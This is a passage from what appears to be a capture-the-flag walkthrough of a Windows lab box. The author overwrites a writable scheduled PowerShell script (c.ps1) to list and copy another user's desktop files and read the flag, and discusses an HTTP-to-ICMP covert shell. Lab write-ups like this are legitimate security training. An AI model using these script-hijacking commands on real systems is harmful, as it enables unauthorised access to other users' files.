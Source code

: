 
### Enumerate Via c.ps1

#### Strategy

This is where some design decisions I made with my shell make this a bit
harder. My shell is based on asynchronous comms, in the sense that commands
are sent up via HTTP, and then back over ICMP. I know others who solved this
box uploaded PowerShell over the HTTP webshell that ran continuously, getting
new commands from the ICMP replies. If I had used that strategy here, I could
just put that same PowerShell in `c.ps1` and get that same ICMP shell.

I’ll consider making changes to my shell. If I didn’t want to go all the way
to ICMP tasking, I could run PowerShell that constantly reads from a file,
executing commands in it and sending back results over ICMP, and then have
commands I type use HTTP to write to that file.

#### decoder Desktop

Before I get to code changes, I’ll do some really basic enumeration, starting
with the home directory of decoder.MINION. Noticing that the next run was less
than 30 seconds away, I’ll backup the original `c.ps1` and update the original
to list the files on decoder.MINION’s desktop, where I expect to find
`user.txt`:

    
    
    Minion> copy \sysadmscripts\c.ps1 \sysadmscripts\c.ps1.bak
    Minion> echo 'dir C:\users\decoder.minion\desktop > C:\programdata\0xdf' > \sysadmscripts\c.ps1
    

After that runs, there’s data in `\programdata\0xdf`:

    
    
    Minion> cat \programdata\0xdf
    
    
        Directory: C:\users\decoder.minion\desktop
    
    
    Mode                LastWriteTime     Length Name                               
    ----                -------------     ------ ----                               
    -a---          9/4/2017   7:19 PM     103297 backup.zip                        
    -a---         8/25/2017  11:09 AM         33 user.txt
    

I’ll copy both those files to somewhere I can read:

    
    
    Minion> echo 'copy C:\users\decoder.minion\desktop\* C:\programdata\' > \sysadmscripts\c.ps1
    

Once that runs, I can read `user.txt`:

    
    
    Minion> type \programdata\user.txt
    40b949f9************************
    

## Shell as Administrator
